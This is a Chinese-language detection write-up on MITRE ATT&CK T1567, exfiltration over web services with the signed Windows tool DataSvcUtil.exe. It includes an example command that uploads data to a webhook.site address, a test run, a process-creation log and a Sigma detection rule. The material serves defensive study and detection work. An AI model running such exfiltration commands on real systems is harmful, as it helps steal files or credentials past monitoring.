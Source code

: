 # T1567-win-通过Web服务进行渗透-DataSvcUtil.exe(白名单)
## 来自ATT&CK的描述
攻击者可能使用现有的合法外部Web服务而不是他们的主要命令和控制通道来窃取数据。 由于网络中的主机可能在受到攻击之前已经与它们进行通信，因此流行Web服务可能充当渗漏机制的提供大量掩护。 防火墙规则也可能已经存在以允许这些服务的流量。

Web 服务提供商通常也使用 SSL/TLS 加密，为攻击者提供更高级别的保护。
##  测试案例
DataSvcUtil.exe是WCF数据服务提供的命令行工具，它使用开放数据协议(OData)源，并生成从.NET Framework客户端应用程序访问数据服务所需的客户端数据服务类。

路径：
```
- C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
```

一般上传文件、凭据或数据泄露:
```
DataSvcUtil /out:C:\\Windows\\System32\\calc.exe /uri:https://webhook.site/xxxxxxxxx?encodedfile
```

用例：上传文件
所需权限：用户
操作系统：Windows 10

## 检测日志

windows安全日志

## 测试复现
```
C:\Windows\Microsoft.NET\Framework64\v3.5>DataSvcUtil /out:C:\\Windows\\System32\\calc.exe /uri:https://www.baidu.com/
Microsoft (R) DataSvcUtil 版本 3.5.0.0
版权所有 (C) 2008 Microsoft Corporation。保留所有权利。

正在写入对象层文件...
错误 7001: 远程服务器返回错误: (404) 未找到。

生成已完成 -- 1 个错误，0 个警告
```

## 日志留痕
```
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x2260

新进程名称: C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x24b4

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: DataSvcUtil  /out:C:\\Windows\\System32\\calc.exe /uri:https://www.baidu.com/
```
## 检测规则/思路
参考Sigma官方规则：
```yml
title: LOLBAS Data Exfiltration by DataSvcUtil.exe

id: e290b10b-1023-4452-a4a9-eb31a9013b3a

status: experimental

author: Ialle Teixeira @teixeira0xfffff, Austin Songer @austinsonger

date: 2021/09/30

description: Detects when a user performs data exfiltration by using DataSvcUtil.exe

references:

- https://gist.github.com/teixeira0xfffff/837e5bfed0d1b0a29a7cb1e5dbdd9ca6

- https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/wcf-data-service-client-utility-datasvcutil-exe

- https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/generating-the-data-service-client-library-wcf-data-services

- https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/how-to-add-a-data-service-reference-wcf-data-services

tags:

- attack.exfiltration

- attack.t1567

logsource:

category: process_creation

product: windows

detection:

selection:

CommandLine|contains|all:

- '/in:'

- '/out:'

Image|endswith:

- '\DataSvcUtil.exe'

condition: selection

fields:

- ComputerName

- User

- CommandLine

- ParentCommandLine
```
## 参考推荐
MITRE-ATT&CK-T1567

<https://attack.mitre.org/techniques/T1567>

DataSvcUtil.exe

<https://lolbas-project.github.io/lolbas/Binaries/DataSvcUtil/>